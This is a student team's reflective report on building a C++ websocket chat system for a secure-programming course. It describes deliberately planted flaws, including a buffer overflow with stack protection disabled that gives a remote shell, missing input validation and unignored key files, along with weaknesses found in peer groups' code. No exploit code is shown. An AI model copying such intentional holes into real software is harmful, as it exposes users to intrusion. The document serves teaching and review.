

# Advanced Secure Protocol Design, Implementation and Review - Reflective Commentary

**Secure Protocol Documentation and Design**:
1. [https://github.com/xvk-64/2024-secure-programming-protocol](https://github.com/xvk-64/2024-secure-programming-protocol)
2. [https://github.com/Aegizz/Tutorial-7-Olaf-Neighbourhood](https://github.com/Aegizz/Tutorial-7-Olaf-Neighbourhood)

Our practical group had originally seen this protocol but decided against following their exact design due to issues with the implementation and difficulty of communicating and organising a fix within external channels.

**Github Repository for Reference to our Code**: [https://github.com/Aegizz/Tut-7-ON-Imp](https://github.com/Aegizz/Tut-7-ON-Imp)

1. Reflection of Protocol
2. Reflection of Implementation, Security, Flaws and Decisions
3. Reflection of Feedback

## Reflection on Standarised Protocol
The Olaf-Neighbourhood protocol is fairly well documentated and fleshed out now, as we head towards the end of the semester. This was not the case around 5 weeks ago when the voting of each protocol was organised. There has been around 35 commits to the original protocol since the beginning of the assignment that had fixed our problems with it. In the mean time, our practical/tutorial group had mutually agreed to use a modified version with a fork of their documentation.

Our implementation of the protocol differed in two key aspects.

    A. Time to die in private chats
    B. Client and Server ID's

We made these changes due to a few issues that were present in the earlier iterations of the protocol. 

Firstly, there is no time to die in the final implementation, this can cause potential issues as older packets may be prioritised over newer ones. This is a small nitpick and will only cause issues in cases where the packets are sent out of order. This is highly unlikely since websocket uses TCP not UDP.

Secondly, the fingerprinting and signing implementation was originally not outlined, so as a group we determined that adding client and server id's as a backup would be useful. However, further details were later released so, incoroporating the IDs into the protocol may have not been necessary. 

In hindsight, it would have been better to encourage the tutorial class to maintain ID mappings on their end rather than sending IDs, as relying on IDs being present in messages like our modified protocol does reduces interoperability with other groups and made testing with others challenging.
We tried to have fail-safes in our code, so if ids weren't present, it would still be able to function.

### Issues with the Original Olaf-Neighbourhood Protocol

Key issues with the protocol:

1. Encryption
2. JSON Libraries
3. Multithreading and Performance
4. Handling Portflooding
5. Server to Server Signing and Verification

The standarised encryption was well documentated, the issue lay with the implemenation. Since RSA and AES has a wide range of standards and models, accurately implementing these methods between a wide range of coding languages, libraries, and versions of libraries proved problematic. A good example of this is when we updated our signing method to match the new spec after it was updated. One of our group members was operating on OpenSSL v1.1.2 whereas the others were on OpenSSL v3.0.2. Thus when the group member updated the specification to match the OpenSSL v1.1.2 implementation, our systems would fail to sign the keys without a relevant warning. If we had been more involved in the protocol design process for the cohort, we may have been able to provide some alternative ideas to improve the protocol or gain further details about what others were thinking about when designing the Olaf-Neighbourhood protocol.

JSON is a popular format for organising data and ensuring the format between each system remains the same. This is beneficial for communicating data between different coding languages and systems. Issues occurred when hashing functions were used to sign these JSON messages, as slight variations in the implementations the JSON strings caused inconsistent hashes for what were essentially identical JSON packets. An example of this is when the "json" python library function dump() is called, there is a whitespace at the begining of the resulting string, causing the hash of the string to be different and thus the signature verification to fail for those not using the python "json" library. We recommended removing whitespace for hashing, but were unsure about the effectivness as there is a distinct lack of communication between groups.

Due to the nature of using websockets, there is always the possibility of multithreading and portflooding causing issues. If multiple servers are running on a client, there's a possibility of flooding the server with connections and causing a DoS attack. The other issue is that Websocket is not designed for fast communication with a large number of clients. This problem is exacerbated by the use of slower programming languages like Python with its global interpreter lock. If multithreading is not being utilised, this will lead to similar DoS attacks if not handled correctly by the implementor (Less of a design flaw but is worth noting that it should be included in the documentation).

Server to server signing and verification is a vital component of interserver communication and was not clearly defined in the protocol when implementation began. This provided challenges for many other groups and should have been addressed sooner. Rather than waiting for the Olaf-Neighbourhood protocol designers to find and fix the issue themseves, we should have raised this issue when we were confused about the signature process, and whether servers maintain their own keys.

If signatures are not implemented properly, a malicious agent is able to set up their own server and could replay messages or create their own malicious messages on behalf of the clients they are impersonating, while other clients are unaware of any malfeasance. 

See Appendix 3: MITM Attack Diagram for a diagram of an example where a malicious server could advertise to be a different user while storing the data and replay it to the actual user.

### Individual Contributions

Aegizz - Lloyd Draysey a1870678 - 40% Contributions

gradyclark03 - Graydon Clark a1851704 - 40% Contributions

GohnJrey - Christopher Evans a1851242 - 10% Contributions

Goundsu - Sunjay Gounder a1860381 - 10% Contributions

**Lloyd's Contributions:** 

- Makefile
- BOF.py (Original buffer overflow PoC and vulnerability)
- tests/* (All test files, including expected output and processing)
- .github/workflows/testing.yml (Generating test workflow for github to run all tests automatically)
- client/* except, client_key_gen.cpp and client_key_gen.h. (All client communication setup including message parsing, message generation, message api and documentation, signing,fingerprinting, aes, base64, etc., Christopher Evans did implement the RSA in this folder (with the support of ChatGPT)
- test.sh (Test bash script to be called by github workflow)
- Initially setting up testClient and server using websocketpp documentation.
- Install nlohmann/json and setting up for documentation.
 
**Graydon's Contributions:**

- Server-server communication
    - Managing spawned clients that connect to other servers on behalf of server (with the help of ChatGPT)  
    - Server hellos, client updates, forwarding chats, signature verification
- Server and client handling of messages implementation
- Management of all connections made to or by a server
- Mapping clients and servers to public keys
- Much of server_list.h + server_list.cpp and server_utilities.h and server_utilities.cpp
- Much of userClient functionality + ID logic
    - Enhancements to client_list for userClient
- Updating RSA keys to spec (with the help of ChatGPT)
- test_data_message.cpp and test_chat_message.cpp
- ServerDocumentation.md
- Management of tasks on trello board and assisting group members
 
**Sunjay's Contributions:**

- Implement some of userClient, i.e counter, some of send private, and send public 
- Implement TTD in websocket_metadata.h and all servers, implemented current_time() in ServerUtilities
- Implement counter in websocket_metadata.h and all servers
- Implement some input validation in userclient

**Chris' Contributions:**

- Implemented message decrypt on client
- Mutex locks for shared data in server
- RSA key generation
- Loading keys from PEM files
- Patched BOF
- Malformed JSON protections
- Implemented server map pruning (untested on Chris' branch)


## Reflection of Implementation, Security, Flaws and Decisions

When creating and desinging a project there are always choices to be made. Deciding between a method or choice of implementation impacts the quality, security and operability of a code base. The key decisions we will outline are:

1. Coding Language
2. Libraries
3. DevOps, Testing, CI/CD, and Running the Code
4. Bugs and Operability between Groups
5. Backdoors and Vulnerabilities
6. Use of AI & LLMs

### Coding Language

Since the design for this assignment was to learn about unsafe coding practices and vulnerabilities in code, a low-level, non-memory safe language is always optimal for designing an insecure implementation. This limits our languages, to Assembly, C, C++, C/C++ Header, Cython, D (ASD, 2024). In our opinion, C++ is the best choice here as we can use the plethora of libraries to support and minimise the need for developing JSON and Websocket packages. It is also well documented to simplify integration with other systems, and is compatible for a wide range of systems. C++ also has the capabilities of using C library functions, many of which are insecure, making it simple to develop insecure code. Finally, it is a language that the majority of our group is familiar with and have experience programming in. Looking back on it, it likely would have made things easier for our group member that was inexperienced with C++ if we had used Python instead, and it may have simplified some of the server-server communication. 

### Libraries

For our implementation, OpenSSL, websocketpp and nlohmann/json were chosen to be used as these libraries provided us with three core components of our chat system, encryption, websockets and JSON parsing.

**1. OpenSSL**

OpenSSL is a popular software library for secure connections over a network. We used OpenSSL for AES and RSA encryption per the standard.

See **Appendix 1 & 2** for encryption standards for the protocol.

These encryption methods were challenging for us to implement as there was a lack of documentation for OpenSSL to be able to meet the standard of the Olaf Neighbourhood Protocol (ON). This meant most of the encryption, encoding and hashing was generated by artificial intelligence like ChatGPT. In hindsight, this lessened our understanding of the functionality and subsequently caused a more difficult and time consuming debugging process. If this project were to be done again, more time would be spent trying to understand the documentation to gain a better understanding of the library. Encryption was the toughest aspect of the project, as consistency is vital across implementations for interoperability between other clients.

**2. websocketpp**

Websocketpp is a C++ library that implements RFC6455 Websocket Protocol, allowing us to integrate the protocol into our C++ programs. This library enabled us to initiate connections from clients to servers. Examples existed to help us start the project, however, the documentation was quite overwhelming. This led to a reliance on AI generated code to learn the library, however, we eventually became familiar enough with the library to not need ChatGPT. Though it was never mentioned in the public protocol page, (was not sure if it infringed on academic integrity rules) server-server communication was only possible through servers spawning their own clients to make connections to other servers. This was a major hurdle to overcome that was likely brought upon by our choice of programming language. As mentioned before, if we had used Javascript or the Python library for websockets, it may have made the implementation simpler for all of us, and not brought about this issue with server-server connections.

**3. nlohmann/json**

nlohmann/json is a C++ library designed for reading json, creating json objects, serialization and deserialization using modern C++ syntax. This library allowed us to parse and dump JSON objects and strings easily with very little to no errors. This library was simply a method of abstracting the tools required to read the protocol syntax.

### DevOps, Testing, CI/CD, and Running the Code

To install and run our code we have a fully documentated README.md on installing the dependencies and building and then making our test cases and running our clients and servers.

See **Appendix 4**. (We would highly recommend just checking it out from our Github [https://github.com/Aegizz/Tut-7-ON-Imp/blob/main/README.md](https://github.com/Aegizz/Tut-7-ON-Imp/blob/main/README.md))

From the initial stages of our development, we have employed testing via GitHub Actions and unit test functions for classes and functions we created. These all can be found in the tests/ directory in our repository. To view our testing history checkout our Github actions and pull requests. These actions essentially installed our dependencies, built our client and server, built our tests and ran them, then tested a real client-server communication via a bash script, test.sh.

See **Appendix 5** for Testing Workflow.

This testing methodology enabled us to prevent code that did not work from appearing on the main branch of the project and ensured that each user was closely following the specification. It only ran automated tests on client code, not server code, so testing for server code was done by whoever was implementing it, with no screenshots or proof of it. We should have made it a group initiative to write test scripts for our server code so other users could make changes and automatically test their changes.

### Bugs and Operability between Groups

Since a major focus of this project is to build a messaging app that integrates with other implementations in the cohort, interoperability is a big focus of the project. To achieve interoperability we spent time testing with other groups to ensure the sucesss of our project. 

See **Appendix 6** for logs of testing with another group.

This group had failed to implement signing and encryption at this point, so this caused issues when deploying our clients, but server to server communication worked sucessfully. An issue we encountered was the use of JSON strings and JSON arrays for the data. In the original specification, the data JSON object was changed to and from JSON strings and arrays depending on reception about the change. Luckily, we were able to quickly modify our implementation to ensure compataibility.

We had met with another group earlier in the development process to test, but the group could not launch their server after around 3-4 hours of waiting. A dedicated opportunity for students to test interoperability would have been beneficial, but since development began so close to the project deadline, we lacked the time and opportunity other more organised groups may have had due to the workload we had made for ourselves.

### Backdoors and Vulnerabilities

We noted four different vulnerabilities and one backdoor in our code. 

  #### Vulnerability #1
  In server.cpp, there is an insecure string copy which can cause a stack overflow, luckily it is protected by the compiler.... except that the developer disabled stack protection and memory protection for debugging!!! Oh no!
      
      Insecure Copy /server.cpp Line 115
      server-debug Makefile Line 40
     
Vulnerability #1 is the most important of these as it allows us to achieve shell via a buffer overflow on any machine. Buffer overflows, are one of the most common types of RCE vulnerabilities and using C++ allowed us to implement this with relative ease. Currently there is a PoC python exploit in the repository.

See **Appendix 7** for PoC python BOF exploit code.

This exploit will only work unless the memory locations are correct and they will vary from system to system, so to get this working on another system, it may require testing. This vulnerability also doubles as a DoS attack due to the server crashing from stack smashing. We only enabled the functionality of this when using the server-debug as we did not want to accidentally cause someone's computer to be backdoored when sharing the code to class mates. 
      
  #### Vulnerability #2
  In the gitignore, there is no ignorance of .pem files, the files used for key generation. This will likely lead to a user or users leaking keys at some point.
  This is a common way that users leak private information on the internet and has potential to cause issues later down the line as commit history cannot be removed.
  
  If a user were to fork the GitHub of our implementation and make their fork public, they could accidentally push their private and public keys and leak them to the internet. This would then allow other malicious users using the system to steal the keys and impersonate the victim user.
  
  #### Vulnerability #3
  No input validation is being run for the messages sent from a client to the server. As mentioned in **vulnerability #1** there exists a buffer overflow vulnerability in the servers. **Vulnerability #3** provides malicious clients the vector to overflow the buffer and inject shellcode into the servers.
  
  
  #### Vulnerability #4
The server mapping JSON files are not cleared over time.
When clients connect to a server, if it is their first time connecting, it assigns them an ID and adds their public key to a JSON file containing ID<->Public Key mappings. If the server were to take on enough clients and the JSON mapping file were to become large enough, when the server reads this file and converts it to a map, it would consume too much memory and drastically decrease the server performance or cause it to crash. This could occur across the entire network and cripple it. A PoC won't be provided as it requires **many** clients to exploit this vulnerability and it is likely that clients would have to accumulate over a period of time, rather than being able to instaneously exploit the vulnerabilty.

### Use of AI and LLMs

In secure programming there is an aversion to using LLMs and AI to code and solve cybersecurity problems. This is because LLMs and modern AI lacks the understanding of context. For example, ChatGPT is unable to determine why a network is segmented, only that secure networks are segmented. It can regurgitate the data from the internet that it was trained on, but will not understand context the way people do. It is not all knowing, cannot give the best (or even correct) ideas for every prompt it is provided, and is limited by its training data. For this project, we used LLMs when neccessary, or if resources to aid our use of libraries were unavailable. AI is effective at collating knowledge and applying it quickly and conveniently. It has the ability to help improve the understanding of security and programming concepts, but cannot be blindly trusted. 

ChatGPT is useful for generating small functions that accomplish a well versed and already completed goal. Thus, it was used to develop Base64, SHA256 and Hex <-> Bytes conversions. We also used it to write the rsaEncrypt and rsaDecrypt functions. Modern OpenSSL was hard to develop with a distinct lack of documentation for the variety of implementation configurations. We had originally planned for one of our other group members to spend some time learning the library to ensure the implementation was secure. However, this did not happen, and instead ChatGPT was used. This will cause the most issues for operability between groups as ChatGPT appears to prefer OpenSSL v1.1.2, not the newest OpenSSL v3.0.2. Users running older versions of WSL/Ubuntu 20.04 and older will not be able to update OpenSSL to the new standard either. 

We found that it was more effective to discuss approaches to handling security issues with each other, rather than ChatGPT as it helped us maintain an understanding of the implementation, and was beneficial for learning secure programming. Using AI made us realize how much more powerful it has become, as it was very helpful for implementing features, however, it also showed us that it is best to use it to spark our own ideas rather than entirely trusting it as some of its suggestions created issues for us.

## Reflection on Feedback we received

Due to a group member's external circumstances, our group had extended deadlines, meaning other students had less time to review our code, and because of this we only received one peer review as a group.

The peer review we received was on the right track to finding **vulnerability #3**, but mentioned a lack of input validation as a vulnerability where user's enter client and server IDs for users they want to send a message to. This however isn't a place that exploits can be started from as this input never interacts with the server or other clients, and is only used so public keys don't have to be entered by clients. They also didn't identify our buffer overflow vulnerability and therefore didn't mention that a lack of input validation could lead to a buffer overflow.

The other issues like secure websockets not being used and thread safety issues were known before submitting the implementation, and were planned to be patched before the peer review was received. They also mentioned that we over-rely on IDs, and that they can introduce security risks but users are not defined by their ID, rather their public keys, so it is unlikely they can manipulate IDs to exploit the chat system, and they provide no examples of how this could be possible. 

They did however find another problem that we had not considered which was that we are not timing out users. They also mentioned a lack of modular structure being an issue with our code, which we don't think is a valid point, but they also suggested improving our documentation, which we provided plenty of. This suggests that the documentation may have not been helpful for users. The documentation should have been either trimmed down to include the important features and functions, or provide details on other functions that were not documented. These changes would have helped reviewers follow our code better and understand the structure of our repository.

Overall, the peer review was somewhat useful as it made us think about some vulnerabilities we had not considered during development. On the other hand, it did not provide any solutions to fixing security vulnerabilities in our implementation and it seems like the vulnerabilities detected might have been generated using AI as some of the descripitions about the vulnerabilities don't seem entirely relevant to our implementation.

## Reflection on Feedback we Wrote

All four of us provided feedback for three other groups, but we are only going to mention three peer reviews which we gave feedback for. 

### Feedback for Isaac Joynes
We provided feedback to Isaac Joynes' group (no group members were provided in the ReadMe). We provided their group with seven different vulnerabilities. These were no handling of invalid JSON messages on server, private keys stored unencrypted, insecure websockets leading to sniffing packets in plaintext, no authentication of users using RSA signatures, no counter implemented to prevent replay attacks, file upload vulnerabilities including XSS vulnerability and sniffing the curl command packet and obtaining files names of other user's files. Along with identifying the vulnerabilities, we also provided suggestions of how to solve these vulnerabilities. The full detailed feedback provided can all be seen in **Appendix 10**.

Isaac's groups submission contained helpful and concise documentation for using their implementation, so there weren't any challenges in using their implementation, finding vulnerabilities and providing them with feedback. The biggest challenge we faced was understanding how the HTTP server used for file sharing worked. To overcome this issue, we looked online into the library they were using called aiohttp, which showed us that we could not modify the server to exploit it with RCE.

### Feedback for Alex Mathew
We provided feedback to Alex Mathew's group, no group members were provided to us as there was no readme. This means I needed to spend time installing and seting up node.js ourselves. I had  a little experience with the environment before and thus did not need any external help. There was three vulnerabilities we noted:
1. There is a possibility of an open redirect vulnerability by using a username (which doubles as a member ID) that could be a URL to another website. With a crafted payload, this could potentially be exploited to 
redirect users.
2. There are no restrictions on the types of files that can be uploaded. This poses a significant risk for the server, as it opens the door for an attacker to upload malicious files, such as a web shell, which could lead to privilege escalation.
3.  Interestingly, the username appears to be set via localStorage in the app.js file. This raises a security concern, as localStorage can be easily manipulated by a user. This not only allows for name spoofing but also overrides the username[0].id value, which can be observed on line 330 of the app.js file.

It appears they also had some websocket connections being initialised as "backdoors" these websockets do not run any code and thus does not achieve much.

# Appendix

## Appendix 1: RSA:
```
Asymmetric encryption and decryption is performed with RSA.

Key size/Modulus length (n) = 2048 bits
Public exponent (e) = 65537
Padding scheme: OAEP with SHA-256 digest/hash function
Public keys are exported in PEM encoding with SPKI format.
```
## Appendix 2: AES:
```
Symmetric encryption is performed with AES in GCM mode.

Initialisation vector (IV) = 16 bytes (Must be randomly generated)
Additional/associated data = not used (empty).
Key length: 16 bytes (128 bits)
Authentication tag: 16 bytes (128 bits). The authentication tag takes up the final 128 bits of the ciphertext.
```
## Appendix 3: MITM Attack Diagram



In this situation Client A and Client B want to connect and share secret information. The Malicious Server advertises Client C to Client A and Client D to Client B. If both clients connect to the malicious clients, the MITM can store the data will replaying it to each server without them knowing. This requires a little bit of social engineering to have the clients connect correctly or another vulnerability in the implementation but note it is still possible.

## Appendix 4: Documentation on Installing and Running the Code
```
# Implementation of Olaf-Neighbourhood Protocol for Tutorial 7

To compile the code the following commands will need to be run to install the websocketpp and nlohmann JSON C++ libraries required to run our implementation.

sudo apt-get install libboost-all-dev && sudo apt-get install libssl-dev && sudo apt-get install zlib1g-dev

git submodule update --init

cd websocketpp

mkdir build

cd build

cmake ..

sudo make install

cd ..

cd ..

cd json

mkdir build

cd build

cmake ..

sudo make install


We are using a makefile for compiling our code.

Our implementation is modified to heavily use server and client IDs to simplify the identification of servers and clients.
  - We are sending them in client lists, client updates, and private chats.
  - We also have time to die's sent in our private chat messages.

# Compiling Servers

- In our current build, there exists three server files but they don't have any generated keys. server, server2 and server3.
  
    - Currently server runs on ws://localhost:9002, server1 runs on ws://localhost:9003 and server3 runs on ws://localhost:9004
  
    - To compile serverX, run make serverX or to compile all three servers, run make servers
 
# Compiling Clients

- Currently there exists userClient, userClient2, userClient3 (which all take input from stdin)
    - To compile userClientX, run make userClientX or make userClients to compile all three clients.
      - We previously used the testClient files for automated testing.
     
 # How to use the userClient and Server
 Run ./server or ./serverX where X is the number of the server.
 
 Run ./userClient or ./userClientX where X is the number of the client. This will be suffixed on the key files created for the userClient.

 Note: A client can only make a connection to one server at a time.

 Command List:
 - connect
   - Prompts you for a uri, so enter a uri in the format "ws://IP:Port"
 - send message_type
   - Message types are private and public
     - If private, it will prompt you for Server IDs and Client IDs of recipients
 - close close_code:default=1000 close_reason
   - close_code and close_reason are optional, so just typing "close" is fine.  
 - show
   - Displays metadata about the connection
 - help: Displays command list
 - quit: Exit the program

# How to set up servers
Running the servers for the first time will generate the public and private keys, but they will not connect to each other as the neighbourhood is not set up.

To set up new servers in the neighbourhood there are a few important files to change.

- server-files/neighbourhood_mapping.json is currently empty as servers are not setup.
  - It should contain valid public keys belonging to the servers stored against their server ID (a value you decide) stored in JSON form.
- In server-files/ there will exist private and public keys belonging to the servers after keys are generated.
- In each serverX.cpp file where X is the ID of the server, there exists a const int ServerID, listenPort and a const std::string myAddress.
  - ServerID should be set to the ID of the server agreed upon by the neighbourhood.
  - listenPort should be set to the port you want the server to be listening on.
  - myAddress should be set to the address of the server IP+Port e.g. "127.0.0.1:9002".
  - It is important that these are updated to match the current neighbourhood setup.
 
- In server-files/server_list.h, a private member of the ServerList class serverAddresses stores the IP+Port combination of the websocket server against the server ID.
  - It is important that after server keys are generated this is updated to match the neighbourhood mapping so connections are automatically established and maintained properly.
- In the server-files directory, each server will maintain a server_mappingX.json file where X is the ID of the server. These store the IDs of clients of that server against their public keys.
  - If you want to create new ID mappings, delete any existing clients in the mapping. New clients will be added to the JSON file when connecting for the first time so these files don't need to be manually changed to allow new clients to connect but if you want to use IDs that are already assigned then modification will be required.
- Run cp server serverX.cpp to create another user client.
- You will need to create a new call in the Makefile for serverX identical to server but replacing the dependency of server.cpp with serverX.cpp.
    - There are many dependant files so it is important to modify the Makefile for new servers.
 
# How to set up clients
- In userClient, there exists a const int clientNumber.
  - clientNumber is not related to ClientID, it is important for managing local client keys.    
- Deleting client/private_keyX.pem and client/public_keyX.pem where X is the local client number (e.g. testClientX) will regenerate a client's keys when running userClient.
- Run cp userClient userClientX.cpp to create another user client.
- You will need to create a new call in the Makefile for userClientX identical to userClient but replacing the dependency of userClient.cpp with userClientX.cpp.
  - There are many dependant files so it is important to modify the Makefile for new clients.
 
 # Additional Documentation
 Additional documentation can be found in client/ClientDocumentation.md and server-files/serverDocumentation.md.

 client/MessageGenerator.h contains comments about each MessageGenerator function and client/client_utilities.h contains comments about each ClientUtilities function.

 server-files/server_utilities.h contains comments about each ServerUtilities function.  

# Vulnerable Code

### Vulnerability #1
 In server.cpp, there is an insecure string copy which can cause a stack overflow, luckily it is protected by the compiler.... except that the developer disable stack protection and memory protection for debugging!!! Oh no!
    Insecure Copy /server.cpp Line 115
    server-debug Makefile Line 40
### Vulnerability #2
 In the gitignore, there is no ignorance of .pem files, the files used for key generation. This will likely lead to a user or users leaking keys at some point.
 This is a common way that users leak private information on the internet and has potential to cause issues later down the line as commit history cannot be removed.
### Vulnerability #3
 No input validation is being run for messages sent from a client to the server. This will allow buffer overflow vulnerabilities.
### Vulnerability #4
The server mapping JSON files are not cleared over time. When clients connect to a server, if it is their first time connecting, it assigns them an ID and adds their public key to a JSON file containing ID<->Public Key mappings. If the server were to take on enough clients and the JSON mapping file were to become large enough, when the server reads this file and converts it to a map, it would consume too much memory and drastically decrease the server performance or cause it to crash. 

```

## Appendix 5: Github Actions, Testing and Test Code.

Github Actions: [https://github.com/Aegizz/Tut-7-ON-Imp/actions](https://github.com/Aegizz/Tut-7-ON-Imp/actions) This details every time we pushed or other group members made a Pull Request, and the tests we ran before adding to our main function.

Action Workflow:
```yml
name: Install Dependencies
        run: |
          sudo apt-get update
          sudo apt-get install -y libboost-all-dev libssl-dev zlib1g-dev cmake

      - name: Create Build Directories
        run: |
          mkdir -p json/build websocketpp/build

      - name: Cache build
        id: cache-json
        uses: actions/cache@v3
        with:
          path: json/build
          key: json-build-${{ hashFiles('json/build') }}
          restore-keys: |
            json-build-

      - name: Cache build
        id: cache-websocketpp
        uses: actions/cache@v3
        with:
          path: websocketpp/build
          key: websocketpp-build-${{ hashFiles('websocketpp/build') }}
          restore-keys: |
            websocketpp-build-

      - if: ${{ steps.cache-json.outputs.cache-hit != 'true'}}
        name: Build JSON Dependency
        working-directory: ${{github.workspace}}/json/build/
        run: |
          cmake ..

      - name: Install JSON Dependency
        working-directory: ${{github.workspace}}/json/build/
        run:
          sudo make install/fast

      - if: ${{ steps.cache-websocketpp.outputs.cache-hit != 'true'}}
        name: Build websocketpp Dependency
        working-directory: ${{github.workspace}}/websocketpp/build/
        run: |
          cmake ..

      - name: Install websocketpp Dependency
        working-directory: ${{github.workspace}}/websocketpp/build/
        run:
          sudo make install

      - name: Run Tests
        run: |
          make test
```

Test Makefile:
```Makefile
test: debug-all server server2 client testClient test.sh test-client-list test-client-aes-encrypt test-client-sha256 test-client-key-gen test-base64 test-client-signature test-client-signed-data test-hello-message test-chat-message test-data-message test-message-generator
	echo "Running client tests..."
	./test-client-list
	./test-client-aes-encrypt
	./test-client-sha256
	./test-client-key-gen
	./test-base64
	./test-client-signature
	./test-client-signed-data
	./test-chat-message
	./test-data-message
	./test-hello-message
	./test-message-generator
	echo "Running tests..."
	chmod +x test.sh
	bash test.sh
```
Test Bash Script:
```bash
#!/bin/bash
set -e

# Start the server in the background, redirecting output to a log file
./server > tests/server.log 2>&1 &
./server2 > tests/server2.log 2>&1 &
SERVER_PID=$!
SERVER2_PID=$!
# Wait a moment to ensure the server starts properly
sleep 2

# Check if the server is running (using the PID)
if ps -p $SERVER_PID > /dev/null; then
    echo "Server is running."
else
    echo "Server failed to start."
    cat tests/server.log
    exit 1
fi

# Check if the server log contains any errors (e.g., "ERROR" keyword)
if grep -i "error" tests/server.log; then
    echo "Error found in server log."
    cat tests/server.log
    kill $SERVER_PID
    exit 1
fi

# Continue with the client and comparison as before
./testClient > tests/client.log 2>&1 &
CLIENT_PID=$!
wait $CLIENT_PID

# Check if the client log contains any errors (optional)
# if grep -i "error" tests/client.log; then
#     echo "Error found in client log."
#     cat tests/client.log
#     kill $SERVER_PID
#     exit 1
# fi


#Removes client ID, server ID and dates from output to ensure the outputs remain the same
sed -E 's/\[[0-9]{4}-[0-9]{2}-[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2}\]//g' tests/client.log | \
sed 's/"client-id":"[^"]*"/"client-id":"<client-id>"/g' | \
sed 's/"server-id":"[^"]*"/"server-id":"<server-id>"/g' | \
sed 's/"time-to-die":"[^"]*"/"time-to-die":"<time-to-die>"/g' > tests/processed_output_client.log

sed -E 's/\[[0-9]{4}-[0-9]{2}-[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2}\]//g' tests/server.log | \
sed 's/"client-id":"[^"]*"/"client-id":"<client-id>"/g' | \
sed 's/"server-id":"[^"]*"/"server-id":"<server-id>"/g' | \
sed 's/"time-to-die":"[^"]*"/"time-to-die":"<time-to-die>"/g' > tests/processed_output_server.log


# Define the expected output file
EXPECTED_OUTPUT_CLIENT="tests/expected_output_client.txt"
EXPECTED_OUTPUT_SERVER="tests/expected_output_server.txt"
CLIENT_OUTPUT="tests/processed_output_client.log"
SERVER_OUTPUT="tests/processed_output_server.log"

# Compare the client's output to the expected output
if diff -q "$CLIENT_OUTPUT" "$EXPECTED_OUTPUT_CLIENT" > /dev/null; then
    echo "Client output matches expected output."
else
    echo "Client output does not match expected output."
    diff "$CLIENT_OUTPUT" "$EXPECTED_OUTPUT_CLIENT"
    kill $SERVER_PID
    exit 1
fi

#This needed to be removed later due to the nature of connectivity between two clients in a server to server connection and timing.

# if diff -q "$SERVER_OUTPUT" "$EXPECTED_OUTPUT_SERVER" > /dev/null; then
#     echo "Server output matches expected output."
# else
#     echo "Server output does not match expected output."
#     diff "$SERVER_OUTPUT" "$EXPECTED_OUTPUT_SERVER"
#     kill $SERVER_PID
#     exit 1
# fi

# Terminate the server process
kill $SERVER_PID
kill $SERVER2_PID
exit 0
```
## Appendix 6: Logs from Interoperability Testing

### Their server:
```
./server 
WebSocket server is running on ws://localhost:9003
Enter serverip:port to connect to or type 'exit' to quit: Client connected.
Received message: {"counter":12345,"data":{"sender":"127.0.0.1:9002","type":"server_hello"},"signature":"c8kja8ZZPC4/PNuO6INewAwooDRXHCUFSyO3tlGD3XjXjQiQql97Xr9LSxm17fpwtXdItRUfVYDFO2iQOzPDcbsuGVU3Tz+wVjFr0bdxLuCDQmcUdylJO+WJgS4a9rmXZIJ+gkYGMGYV0zImZaLKsrJk8+tjwvXXEg1zfn1/IUorpvUypw4MKTFIIiyt1eVNFD4yXhMHQfigTtbiivwanza1bCbmN+sw6SPM1WYq6D+bkwVXrxs5ODIEjJskyrzA406CxAkjw2+B0w21Tf6axw4kkcyiCJRBcWI3sUCXjwvCFtFC+/PVMfvDFUyxHAikOrTKYSKsW5Ok5P8gYxBbjg==","type":"signed_data"}
Received message: {"counter":12345,"data":{"sender":"127.0.0.1:9002","type":"server_hello"},"signature":"c8kja8ZZPC4/PNuO6INewAwooDRXHCUFSyO3tlGD3XjXjQiQql97Xr9LSxm17fpwtXdItRUfVYDFO2iQOzPDcbsuGVU3Tz+wVjFr0bdxLuCDQmcUdylJO+WJgS4a9rmXZIJ+gkYGMGYV0zImZaLKsrJk8+tjwvXXEg1zfn1/IUorpvUypw4MKTFIIiyt1eVNFD4yXhMHQfigTtbiivwanza1bCbmN+sw6SPM1WYq6D+bkwVXrxs5ODIEjJskyrzA406CxAkjw2+B0w21Tf6axw4kkcyiCJRBcWI3sUCXjwvCFtFC+/PVMfvDFUyxHAikOrTKYSKsW5Ok5P8gYxBbjg==","type":"signed_data"}
Received message: {"counter":12345,"data":{"sender":"127.0.0.1:9002","type":"server_hello"},"signature":"c8kja8ZZPC4/PNuO6INewAwooDRXHCUFSyO3tlGD3XjXjQiQql97Xr9LSxm17fpwtXdItRUfVYDFO2iQOzPDcbsuGVU3Tz+wVjFr0bdxLuCDQmcUdylJO+WJgS4a9rmXZIJ+gkYGMGYV0zImZaLKsrJk8+tjwvXXEg1zfn1/IUorpvUypw4MKTFIIiyt1eVNFD4yXhMHQfigTtbiivwanza1bCbmN+sw6SPM1WYq6D+bkwVXrxs5ODIEjJskyrzA406CxAkjw2+B0w21Tf6axw4kkcyiCJRBcWI3sUCXjwvCFtFC+/PVMfvDFUyxHAikOrTKYSKsW5Ok5P8gYxBbjg==","type":"signed_data"}
Received message: {"type":"client_update_request"}
Received message: {"data":{"type":null},"type":"client_update_request"}
Client connected.
Received message: {"name":"test","type":"init"}
Received message: {"data":{"type":null},"name":"test","type":"init"}
